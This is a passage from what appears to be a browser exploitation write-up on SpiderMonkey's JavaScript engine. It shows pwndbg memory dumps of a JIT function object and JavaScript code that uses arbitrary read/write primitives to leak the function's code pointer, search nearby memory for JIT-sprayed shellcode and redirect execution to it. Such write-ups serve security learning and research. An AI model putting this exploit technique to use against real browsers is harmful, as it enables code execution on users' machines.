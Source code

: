 To find the compiled function itself, we crack the `JSObject` representation of it open in GDB:

```c
pwndbg> tele 0x3eef46462430
00:0000│  0x3eef46462430 —▸ 0x3eef4643a140 —▸ 0x3eef46439088 —▸ 0x555557e38e00 (js::FunctionClass) —▸ 0x5555557a444f ◂— ...
01:0008│  0x3eef46462438 —▸ 0x5555557a9130 (emptyObjectSlotsHeaders+16) ◂— 0x100000000
02:0010│  0x3eef46462440 —▸ 0x5555557a9100 (emptyElementsHeader+16) ◂— 0xfff9800000000000
03:0018│  0x3eef46462448 ◂— 0xfff8800000000a21 /* '!\n' */
04:0020│  0x3eef46462450 ◂— 0xfffe3eef4643c040
05:0028│  0x3eef46462458 —▸ 0x3eef4645e290 —▸ 0x27ddd04f2100 ◂— push rbp
06:0030│  0x3eef46462460 ◂— 0xfffb3eef464579c0
07:0038│  0x3eef46462468 —▸ 0x3eef4643a140 —▸ 0x3eef46439088 —▸ 0x555557e38e00 (js::FunctionClass) —▸ 0x5555557a444f ◂— ...
```

We actually already find it in the telescope output; the value we need to leak is thus `**(objectAddr+0x28)`.

```js
  // ...
  puppet[7] = 0;
  puppet[6] = 0;
  let leak = btoi(puppet);
  console.log(leak.toString(16)); // jit JSObject address

  [aar, aaw] = craftARB(target, puppet, 13);
  let code = aar(aar(leak+0x28n));
  console.log(code.toString(16));
  // ...
```

Unfortunately, I couldn't find the address of the actual compiled code (the one containing our doubles) directly from this (what I assume to be a) bootstrap function. But what I determined was that it is usually not too far away, thus the simplest way is to needle-in-a-haystack search for our doubles.

```js
  /* search for shellcode */
  let needle = ftoi(6.373461550595519e-155); // first double of shellcode
  let cur, found;
  /* not sure about the offset, but (-1000, 0] seems to work most of the time */
  for (let off = 0n; off < 0x1000n; off++) {
    cur = aar(code-off);
    if (cur === needle) {
      found = code-off;
      break;
    }
  }
  if (!found) {
    console.log('not found :(');
  } else {
    aaw(aar(leak+0x28n), found);
    console.log(`[+] found! at 0x${found.toString(16)}`);
    dumpValue(jit);
  }
```
